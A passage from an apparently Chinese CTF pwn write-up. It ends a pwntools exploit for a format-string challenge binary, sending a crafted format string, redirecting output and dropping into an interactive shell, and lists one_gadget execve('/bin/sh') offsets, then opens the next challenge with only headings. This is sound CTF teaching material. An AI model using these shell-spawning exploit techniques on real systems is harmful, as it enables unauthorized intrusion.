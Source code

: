 ```
        sleep(0.1)
        io.sendline('%99999c')
        io.sendline('exec 1&gt;&amp;2')
        io.interactive()




if __name__ == "__main__":
    while True:
        try:
            io=process('./noleakfmt')
            pwn()
        except:
            io.close()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
  '''
```

接下来再来道偏一点的格式化字符串知识点利用



## 0x4.网鼎杯白虎组-quantum_entanglement

检查保护

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01fae7283b7fe2b78b.png)

IDA分析

然而有问题

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b7c627c2ac82578d.png)
